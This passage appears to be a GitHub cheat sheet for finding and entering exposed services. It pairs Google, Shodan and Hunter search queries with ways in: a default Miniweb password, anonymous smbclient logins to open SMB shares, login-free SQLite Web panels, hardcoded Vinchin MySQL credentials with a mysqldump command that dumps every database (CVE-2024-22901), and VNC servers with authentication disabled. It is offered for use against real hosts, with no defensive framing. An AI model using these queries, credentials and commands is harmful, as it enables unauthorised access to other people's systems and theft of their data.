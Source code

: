 Default password: _`100`_
### Google dork
[`intitle:"Miniweb Start Page"`](https://www.google.com/search?q=intitle%3A%E2%80%9DMiniweb+Start+Page%E2%80%9D)
# SMB server misconfiguration
### installing smbclient
Debian: `apt install samba`

Arch: `pacman -S smbclient`
### login in to misconfigurated server
`smbclient -N \\\\{address}\\Users`
### Shodan query
[`port:445 "Authentication: disabled" "Users"`](https://www.shodan.io/search?query=port%3A445+%22Authentication%3A+disabled%22+%22Users%22)
# SQLite Web free panel
Just search for auth-free dashboards
#### Hunter query
[`web.title="SQLite Web" and web.body!="<h3>Login</h3>"`](https://hunter.how/list?searchValue=web.title%3D%22SQLite%20Web%22%20and%20web.body%21%3D%22%3Ch3%3ELogin%3C%2Fh3%3E%22)
# Vinchin default MySQL credentials
Username: `vinchin`

Password: `yunqi123456`
### Dump all databases with mysqldump
`mysqldump -h <host> -u vinchin -pyunqi123456 --all-databases --result-file=dump.sql`
###### (Well known as CVE-2024-22901)
### Hunter query
[`web.title="Vinchin Backup & Recovery"`](https://hunter.how/list?searchValue=web.title%3D%22Vinchin%20Backup%20%26%20Recovery%22)
# VNC Servers with auth disabled
Download **[Vnc viewer](https://www.realvnc.com/en/connect/download/viewer/)**
Insert the IP address and port (default is 5900) and connect,

select ok when unencrypted connection warning appears.
### Shodan query
[`hash:1569903015`](https://www.shodan.io/search?query=hash%3A1569903015)

